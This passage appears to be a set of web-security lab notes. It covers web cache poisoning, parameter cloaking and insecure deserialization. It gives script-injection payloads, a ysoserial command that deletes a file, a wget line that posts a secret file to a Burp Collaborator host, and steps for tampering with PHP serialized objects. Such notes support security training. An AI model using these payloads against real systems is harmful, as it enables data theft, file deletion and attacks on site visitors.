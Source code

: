 HTML is allowed in comment section. Steal user-agent of victim with `<img src="http://collaborator.com">` payload.  
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
5. Web cache poisoning via an unkeyed query string  
```
/?search=kek'/><script>alert(1)</script>
Origin:x
```
6. Web cache poisoning via an unkeyed query parameter  
```
/?utm_content=123'/><script>alert(1)</script>
```
7. Parameter cloaking
```
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```
8. Web cache poisoning via a fat GET request
```
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
```
9. URL normalization  
```
/random"><script>alert(1)</script>
Cache this path and then deliver URL to the victim
```
## Insecure deserialization
Use Java Deserialization Scanner extension for Burp Suite to detect type of serialized object.  
Use ysoserial and phpggc  
```
java -jar --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w0 | xclip -selection clipboard
```
```
export JAVA_HOME="/usr/lib/jvm/java-11-openjdk-amd64"
export PATH="${JAVA_HOME}/bin:{$PATH}"
```
Exfiltrate data:
```
wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net
```

### Exploits
1. Modifying serialized data types
```
1. Change username to administrator (13 symbols)
2. Change parameter access_token from s to i as follows:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
2. Using application functionality to exploit insecure deserialization
```
1. Delete additional user.
2. For the POST /my-account/delete request change deserialized session cookie to:
s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
3. Send it.
```
3. Arbitrary object injection in PHP
```
1. Check for /libs/CustomTemplate.php~
```